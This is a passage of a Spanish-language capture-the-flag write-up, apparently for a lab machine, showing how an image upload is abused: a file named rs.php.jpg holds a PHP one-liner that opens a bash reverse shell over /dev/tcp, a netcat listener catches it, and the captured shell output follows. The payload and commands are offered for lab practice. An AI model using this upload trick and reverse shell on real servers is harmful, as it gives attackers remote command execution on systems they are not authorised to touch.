<figure><img src="../../../.gitbook/assets/settings.PNG" alt=""><figcaption></figcaption></figure>

Vemos que hay una imagen y parece que podemos subir archivos .jpg con eso podemos aprovecharnos para subir un archivo que nos envie una reverse shell

* Creamos un archivo **rs.php.jpg** para enviarnos una reverse shell

```php
<?php system("bash -c 'bash -i >& /dev/tcp/<tu-ip>/<tu-puerto> 0>&1'") ?>
```

* Nos ponemos en escucha con netcat por el puerto indicado

```shell
> nc -lvnp <puerto>
```

* Lo subimos y le damos a **save**

<figure><img src="../../../.gitbook/assets/file_upload.PNG" alt=""><figcaption></figcaption></figure>

* Y estariamos dentro

```shell
> nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.7] 58284
bash: no job control in this shell
bash-3.2$ whoami
asterisk
```
